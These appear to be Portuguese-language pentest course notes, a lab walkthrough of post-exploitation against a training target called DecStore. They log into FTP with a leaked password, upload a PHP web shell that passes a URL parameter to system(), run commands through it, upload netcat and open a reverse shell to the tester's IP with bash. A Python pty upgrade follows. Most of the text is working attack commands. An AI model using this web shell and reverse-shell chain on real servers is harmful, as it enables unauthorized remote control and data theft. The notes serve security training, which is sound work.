







---
>Titulo: Dia 3.4 - Remote Code Execution
>
>Fase: post-exploration
>
>Dia: 3

[RCE](../../0-assets/vulnerabilities/RCE.md)  |  [Reverse-Shell](../../0-assets/vulnerabilities/Reverse-Shell.md)

[Netcat](../../0-assets/tools/Netcat.md)

#FTP #PHP 

---

Agora que nós já exploramos muitas superficies da plataforma da DecStore, e coletamos muitas informações úteis, vamos então testar com o que conseguimos, acessar o servidor remotamente, via FTP.

Primeiro, vamos pegar a senha que coletamos da base de dados no dia
[2.5-disclosure](../2-mapeando-aplicacao/2.5-disclosure.md). 



Senha em mãos, vamos testar.

```python
## Já sabemos que a porta 2121/FTP está aberta
ftp decstore.com.br 2121
user: decstore
password: @us3RX987X321@
*230 Login successful*

## Vamos ativar o modo passivo para funcionar melhor
ftp> pass
```

Esta senha funcionou, mas caso não tivesse, nós teriamos mais opções para usar, ou outra técnicas para descobrir, seguimos.

---

Agora acom acesso FTP, podemos explorar totalmente o servidor da DecStore.
Conseguimos navega e visualizar todos os arquivos, e como estamos acessando o servidor via FTP, vamos tentar subir um arquivo para ele, primeiro, dentro da nossa máquina, vamos criar um arquivo simples em PHP.

```php
## Na nossa máquina, criemos
nano pentest.php

-----------------------

## Este será o conteúdo do arquivo .php
<?php
system($_GET['desec']);
?>
```

Agora voltemos para o acesso FTP.

```python
## Vamos utilizar este comando para enviar arquivos do nosso computador para o servidor da DecStore.
## Precisamos conectar novamente ao servidor
ftp> put pentest.php

## Agora podemos confirmar que está no servidor
ftp> ls -la
```

Onde confirmamos mais uma vulnerabilidade, pois pela web, nós conseguimos acessar esse arquivo que enviamos ao servidor:



Onde mesmo não sendo exibido nosso texto, a plataforma responde ao nosso arquivo PHP.
Confirmando uma vulnerabilidade RCE.
Com esse acesso podemos usar a URL da plataforma como um terminal do servidor, conseguindo usar comandos de linux, como "cat", "pwd", "ip a", etc...

---

Agora que sabemos dessa possibilidade de RCE, vamos então tentar um Reverse-Shell


Primeiro vamos validar qual arquitetura de binários utiliza esse server, desta forma:

```python
## Ainda na URL da DecStore
http://decstore.com.br/arquivos/pentest.php?desec=file /bin/bash
```

Que irá retornar esta informação, confirmando ser um sistema de 64-bit.



Agora, iremos enviar nosso binário para o servidor da DecStore, utilizando o FTP:

```python
## Na nossa máquina
cp /usr/bin/nc .
file nc

## vamos fazer login novamente
ftp decstore.com.br 2121
name: decstore
password: @us3RX987X321@
*230 Login successful*
ftp> pass

## Agora vamos copiar utilizando o comando "PUT"
ftp> put nc

## Arquivo enviado, agora podemos sair do servidor e voltar a nossa máquina
```

Seguimos

```python
## Na nossa máquina, pela URL da plataforma, digitamos a URL/comando:
http://decstore.com.br/arquivos/pentest.php?desec=cp nc /tmp/netcat

## Porém este arquivo está sem permissão, vamos corrijir isso
http://decstore.com.br/arquivos/pentest.php?desec= chmod 777 /tmp/netcat

## Podemos confirmar com um ls
http://decstore.com.br/arquivos/pentest.php?desec= ls -la /tmp/netcat
```

Onde agora temos controle total sobre o terminal.



Voltando na nossa máquina, vamos abrir uma porta para permitir o acesso:

```python
## Vamos abrir uma porta comum na nossa máquina
nc -vnlp 80
```

>Temos que nos atentar a qual porta iremos abrir, bom será focar em portas comuns, pois algumas portas tem o trafego de saída bloqueado, impedindo a comunicação.
>Opte por portas comuns, como a 80, 8080, 443, etc... Onde o NetCat irá funcionar melhor.

Voltando na URL da plataforma da DecStore:

```python
## Vamos agora iniciar o serviço no fornecedor com o comando
http://decstore.com.br/arquivos/pentest.php?desec=/tmp/netcat 172.20.1.12 80 -e /bin/bash
```

</Preciso explicar o comando>

Note que o navegador irá ficar carregando:



E nossa máquina vai estar dessa forma, sinalizando que a conexão foi bem sucedida.



Agora já é totalmente possível rodar comandos da nossa máquina, ao servidor,
literalmente, se estivessemos acessando diretamente a shell do servidor.
Mas vamos deixar isso com mais cara de terminal com alguns comandos.

Vamos precisar do Python em ambas as máquinas, então:

```python
## Primeiro, confirme que o servidor tem pacotes do Python
dpkg -l | grep python
## Confirmado, podemos seguir

## Vamos utilizar esse comando
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Após os ajustes, estamos com cara de terminal de verdade e podemos seguir com os testes.



---
